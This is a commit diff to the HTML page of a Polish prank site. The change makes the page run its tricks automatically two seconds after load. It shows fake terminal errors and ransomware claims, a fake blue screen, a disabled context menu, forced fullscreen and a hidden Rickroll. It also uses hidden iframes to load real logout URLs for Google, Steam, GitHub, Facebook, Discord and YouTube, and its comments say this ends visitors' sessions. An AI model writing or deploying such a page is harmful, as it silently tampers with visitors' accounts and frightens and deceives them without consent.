

Before and after one commit to kicakkk/nemo-momo, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,94 +2,178 @@
 <html lang="pl">
 <head>
 <meta charset="UTF-8">
-<title>Ptoszek</title>
+<meta name="viewport" content="width=device-width, initial-scale=1.0">
+<title>System Error</title>
 <style>
-  body { margin: 0; overflow: hidden; background: #111; color: #fff; font-family: sans-serif; }
-  .fake-window {
-    position: fixed; width: 200px; padding: 10px;
-    background: #fff; color: #000; border: 1px solid #000;
-    font-size: 12px; z-index: 9999; cursor: pointer;
-    box-shadow: 2px 2px 10px rgba(0,0,0,0.5);
+  * { margin: 0; padding: 0; box-sizing: border-box; }
+  html, body {
+    width: 100%; height: 100%; background: #000; color: #0f0;
+    font-family: 'Courier New', monospace; overflow: hidden;
+    user-select: none;
   }
-  .fake-window .title { font-weight: bold; background: #ddd; padding: 2px; margin: -10px -10px 5px -10px; }
-  #start { text-align: center; margin-top: 20vh; font-size: 24px; }
+
+  /* Ekran błędu */
+  #screen {
+    position: fixed; inset: 0; z-index: 9999;
+    background: #0000aa; color: #fff;
+    font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+    display: none; flex-direction: column; justify-content: center; align-items: center;
+    text-align: left; padding: 50px; font-size: 20px;
+  }
+  #screen h1 { font-size: 80px; margin-bottom: 20px; }
+  #screen p { margin-bottom: 10px; max-width: 800px; }
+
+  /* Terminal i matryca */
+  #matrix { position: fixed; inset: 0; z-index: 0; opacity: 0.3; }
+  #terminal {
+    position: fixed; top: 0; left: 0; right: 0; bottom: 0;
+    padding: 20px; font-size: 16px; line-height: 1.3;
+    white-space: pre-wrap; overflow: hidden; z-index: 2; text-shadow: 0 0 5px #0f0;
+  }
+  .err { color: #f33; font-weight: bold; }
+  .warn { color: #ff0; }
+
+  /* Ukryte iframes do wylogowywania */
+  iframe { display: none; }
+
+  /* Pasek glitchu */
+  .glitch-bar {
+    position: fixed; left: 0; width: 100%; height: 4px;
+    background: #f00; z-index: 9998; opacity: 0.8; box-shadow: 0 0 10px #f00;
+  }
 </style>
 </head>
 <body>
 
-<div id="start">Kliknij, żeby zobaczyć ptoszka 🐦</div>
+<canvas id="matrix"></canvas>
+<div id="terminal"></div>
+<div id="screen">
+  <h1>:(</h1>
+  <p>Twój komputer napotkał problem i wymaga ponownego uruchomienia.</p>
+  <p>Kod błędu: 0x000000F4</p>
+  <p>Trwa zbieranie informacji o błędzie... 0%</p>
+</div>
 
 <script>
-// --- 1. LISTA ADRESÓW WYLOGOWANIA (to robi największe wrażenie) ---
-// UWAGA: To są prawdziwe adresy logout. Otwierane w ukryciu wylogują Cię z kont.
+// --- 1. MATRYCA ---
+const canvas = document.getElementById('matrix');
+const ctx = canvas.getContext('2d');
+canvas.width = window.innerWidth;
+canvas.height = window.innerHeight;
+const letters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@#$%^&*'.split('');
+const fontSize = 16;
+const columns = canvas.width / fontSize;
+const drops = [];
+for (let x = 0; x < columns; x++) drops[x] = 1;
+
+function drawMatrix() {
+  ctx.fillStyle = 'rgba(0, 0, 0, 0.05)';
+  ctx.fillRect(0, 0, canvas.width, canvas.height);
+  ctx.fillStyle = '#0F0';
+  ctx.font = fontSize + 'px monospace';
+  for (let i = 0; i < drops.length; i++) {
+    const text = letters[Math.floor(Math.random() * letters.length)];
+    ctx.fillText(text, i * fontSize, drops[i] * fontSize);
+    if (drops[i] * fontSize > canvas.height && Math.random() > 0.975) drops[i] = 0;
+    drops[i]++;
+  }
+}
+setInterval(drawMatrix, 35);
+
+// --- 2. TERMINAL ---
+const terminal = document.getElementById('terminal');
+const errors = [
+  '[CRITICAL] System32 files corrupted...',
+  '[ERROR] Cannot access memory at 0x00A1B2C3',
+  '> WARNING: Overheating detected!',
+  '> Injecting payload... SUCCESS',
+  '> Ransomware encrypted your files.',
+  '> JUST KIDDING. But you are scared, right?',
+  '> Your IP: 192.168.1.1 (tracking active)',
+  '> Sending data to server...',
+  '> [FATAL] Kernel panic.',
+  '> SYSTEM FAILURE IN 3... 2... 1...',
+  '> LOGOUT SEQUENCE INITIATED.'
+];
+function writeLine() {
+  const div = document.createElement('div');
+  const r = Math.random();
+  if (r < 0.4) div.className = 'err';
+  else if (r < 0.7) div.className = 'warn';
+  div.textContent = errors[Math.floor(Math.random() * errors.length)];
+  terminal.appendChild(div);
+  terminal.scrollTop = terminal.scrollHeight;
+  if (terminal.childNodes.length > 50) terminal.removeChild(terminal.firstChild);
+}
+setInterval(writeLine, 80);
+
+// --- 3. PASEK GLITCHU ---
+function createGlitchBar() {
+  const bar = document.createElement('div');
+  bar.className = 'glitch-bar';
+  bar.style.top = (Math.random() * window.innerHeight) + 'px';
+  document.body.appendChild(bar);
+  setTimeout(() => bar.remove(), 150);
+}
+setInterval(createGlitchBar, 100);
+
+// --- 4. PRAWDZIWE WYLOGOWYWANIE (Ukryte iframes) ---
+// To są linki, które faktycznie kończą sesję.
 const logoutUrls = [
   'https://accounts.google.com/Logout',
   'https://store.steampowered.com/logout',
+  'https://github.com/logout',
   'https://www.facebook.com/logout.php',
-  'https://github.com/logout',
+  'https://discord.com/logout',
   'https://www.youtube.com/logout'
 ];
 
-// --- 2. FUNKCJA WYLOGOWANIA ---
 function forceLogout() {
   logoutUrls.forEach(url => {
-    // Tworzymy ukryty iframe lub obrazek – przeglądarka wykona żądanie
-    const img = document.createElement('img');
-    img.src = url; // Przeglądarka próbuje załadować, co często wystarcza do wylogowania
-    img.style.display = 'none';
-    document.body.appendChild(img);
-
-    // Alternatywnie iframe (często skuteczniejszy)
+    // Tworzymy ukryte iframe. Przeglądarka załaduje link w tle i wyloguje.
     const iframe = document.createElement('iframe');
     iframe.src = url;
-    iframe.style.display = 'none';
     document.body.appendChild(iframe);
   });
 }
 
-// --- 3. SKACZĄCE "OKNA" (Divy udające okna) ---
-const texts = ['Błąd', 'Hacked', 'Ptoszek', 'System Error', 'Uwaga!', 'Wirus'];
-let windowCount = 0;
-
-function spawnWindow() {
-  if (windowCount > 40) return; // Limit, żeby nie zabić przeglądarki
-  const win = document.createElement('div');
-  win.className = 'fake-window';
-  win.innerHTML = `<div class="title">${texts[Math.floor(Math.random()*texts.length)]}</div>To tylko żart :)`;
-
-  // Losowa pozycja
-  win.style.left = Math.random() * (window.innerWidth - 220) + 'px';
-  win.style.top = Math.random() * (window.innerHeight - 100) + 'px';
-
-  // Ruch (skakanie)
-  setInterval(() => {
-    win.style.left = Math.random() * (window.innerWidth - 220) + 'px';
-    win.style.top = Math.random() * (window.innerHeight - 100) + 'px';
-  }, 500 + Math.random() * 1000);
-
-  // Kliknięcie zamyka (ale nie wszystkie naraz)
-  win.onclick = () => { win.remove(); windowCount--; };
-
-  document.body.appendChild(win);
-  windowCount++;
+// --- 5. RICKROLL W TLE ---
+function startRickroll() {
+  // Odtwarzamy ukryty film z YouTube (wymaga interakcji użytkownika wcześniej, np. kliknięcia)
+  const iframe = document.createElement('iframe');
+  iframe.src = "https://www.youtube.com/embed/dQw4w9WgXcQ?autoplay=1";
+  iframe.style.position = "fixed";
+  iframe.style.bottom = "0"; iframe.style.right = "0";
+  iframe.style.width = "1px"; iframe.style.height = "1px"; // Ukryty, ale gra dźwięk
+  iframe.style.opacity = "0"; iframe.allow = "autoplay";
+  document.body.appendChild(iframe);
 }
 
-// --- 4. ODPALENIE ---
-document.getElementById('start').onclick = () => {
-  document.getElementById('start').style.display = 'none';
+// --- 6. AKCJA (Odpala się po 2 sekundach) ---
+setTimeout(() => {
+  // Wylogowanie
+  forceLogout();
+  startRickroll();
 
-  // Wylogowanie (najgroźniejsze, ale robi wrażenie)
-  forceLogout();
+  // Błędy lecą szybciej
+  setInterval(writeLine, 20);
 
-  // Wysyp okienek
-  for (let i = 0; i < 20; i++) {
-    setTimeout(spawnWindow, i * 200);
-  }
+  // Po 5 sekundach wyskakuje fałszywy Blue Screen
+  setTimeout(() => {
+    document.getElementById('terminal').style.display = 'none';
+    document.getElementById('matrix').style.display = 'none';
+    const bsod = document.getElementById('screen');
+    bsod.style.display = 'flex';
 
-  // Dźwięk (opcjonalnie)
-  // const audio = new Audio('https://www.myinstants.com/media/sounds/rickroll.mp3');
-  // audio.play().catch(e => console.log('Audio blocked'));
-};
+    // Blokujemy prawy przycisk myszy, żeby trudniej było wyjść
+    document.addEventListener('contextmenu', e => e.preventDefault());
+
+    // Wymuszamy pełny ekran (przeglądarka może wymagać wcześniejszego kliknięcia)
+    document.documentElement.requestFullscreen().catch(e => console.log("Fullscreen blocked"));
+
+  }, 5000);
+
+}, 2000);
 </script>
 </body>
 </html>
```
